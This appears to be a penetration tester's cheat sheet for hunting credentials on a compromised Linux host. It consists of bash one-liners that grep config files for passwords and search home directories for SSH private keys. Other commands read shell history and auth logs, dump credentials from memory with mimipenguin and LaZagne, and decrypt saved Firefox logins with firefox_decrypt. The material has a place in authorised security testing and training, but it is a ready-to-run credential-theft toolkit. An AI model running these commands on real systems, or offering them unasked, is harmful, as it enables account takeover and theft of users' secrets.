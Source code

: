 #linux/auth/creds-hunting
# Conf files
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
# Databases
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```
# Notes
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```
# Scripts
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

```bash
cat /etc/crontab 

ls -la /etc/cron.*/
```
# SSH
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```
# History
```bash
tail -n5 /home/*/.bash*

for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
# Memory and Cache
https://github.com/huntergregal/mimipenguin
### Memory
```bash
sudo python3 mimipenguin.py
```
or
```bash
sudo bash mimipenguin.sh 
```
or
```bash
sudo python2.7 laZagne.py all
```
# Browsers
```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
https://github.com/unode/firefox_decrypt
```bash
python3.9 firefox_decrypt.py
```